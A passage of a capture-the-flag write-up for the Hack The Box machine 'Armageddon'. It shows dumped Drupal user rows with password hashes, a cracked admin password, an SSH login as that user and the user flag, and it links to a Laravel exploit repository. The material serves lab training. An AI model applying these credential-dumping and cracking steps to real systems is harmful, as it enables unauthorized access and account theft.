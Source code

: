 ```
8       spamfakefor     $S$Dff.4TQypd64ohmlv5SlUphbfyulw6zhCbYo1vH69PY8heUHpQbm spam@fake.for                   filtered_html 1618473949      0       0       0       Europe/London           0       spam@fake.for   NULL
9       spam    $S$Dsby3tDVVA08hQdjojdOk0AxY5A3d5/.1tCqW5Q4hdxSHSlhPC1. spam@gmail.com                  filtered_html1618474013       0       0       0       Europe/London           0       spam@gmail.com  NULL
armageddon.htb>> 
```

And we find credentials

```
brucetherealadmin
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```

Password looks like hash. so let's run John.

```

```

And we get password **booboo**

Use ssh to connect

```
┌──(root💀kali)-[/home/kali/HTB/armageddon]
└─# ssh brucetherealadmin@armageddon.htb             
brucetherealadmin@armageddon.htb's password: 
Last login: Thu Apr 15 09:39:12 2021 from 10.10.14.43
[brucetherealadmin@armageddon ~]$ id
uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

And we find **user.txt**

```
[brucetherealadmin@armageddon ~]$ cat user.txt 
07aac9a86c708f4d45ce26d56e6eb226
```

# Privilege Escalation#2

# Resources

1. https://github.com/aljavier/exploit_laravel_cve-2018-15133
2. https://null-byte.wonderhowto.com/how-to/scan-websites-for-interesting-directories-files-with-gobuster-0197226/
3. https://gtfobins.github.io/

